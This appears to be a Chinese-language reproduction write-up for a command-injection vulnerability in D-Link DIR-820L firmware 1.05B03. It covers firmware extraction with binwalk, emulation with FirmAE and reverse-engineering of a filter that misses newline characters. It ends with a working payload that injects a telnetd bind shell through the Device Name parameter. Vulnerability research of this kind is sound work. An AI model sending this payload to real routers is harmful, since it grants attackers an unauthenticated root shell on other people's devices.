







官网：D-Link DIR-820L 1.05B03 was discovered to contain remote command execution (RCE) vulnerability via the Device Name parameter in /lan.asp.


文件：DIR820LA1_FW105B03.bin


#### binwalk
```bash
jimi@jimi-virtual-machine:~/CVE/CVE-2022-26258$ binwalk -Me DIR820LA1_FW105B03.bin 
```




### 固件模拟


#### FirmAE 模拟固件
1. 下载：

```bash
# 从GitHub克隆项目
git clone --recursive https://github.com/pr0v3rbs/FirmAE

# 运行download.sh脚本，下载相关程序
./download.sh

#运行安装脚本
./install.sh
```


2.参数：

```bash
# 命令
sudo ./run.sh -c <brand> <firmware>			检查固件是否能模拟
sudo ./run.sh -a <brand> <firmware>			漏洞分析
sudo ./run.sh -r <brand> <firmware>			固件模拟
sudo ./run.sh -d <brand> <firmware>			用户级的调试
sudo ./run.sh -b <brand> <firmware>			内核级的调试
```


3.使用：

```bash
jimi@jimi-virtual-machine:~/Tools/FirmAE/FirmAE$ sudo ./run.sh -r DIR820L ../../../CVE/CVE-2022-26258/DIR820LA1_FW105B03.bin
```


启动成功：




### WEB





#### Burp抓包查看Device Name参数



在解包的文件中查找 get_set 关键字，定位到 ncc2 文件，ida 逆向：



hasInjectionString 函数无具体的实现方法，系包导入的函数。


在文件中查找 hasInjectionString 函数，定位到 libleopard.so 文件，IDA 逆向分析：




没有过滤 \n    -->    %0a，可使用该语句绕过。


```bash
lanHostCfg_DeviceName_1.1.1.0=%0atelnetd -l /bin/sh -p 7080 -b 0.0.0.0%0a
```


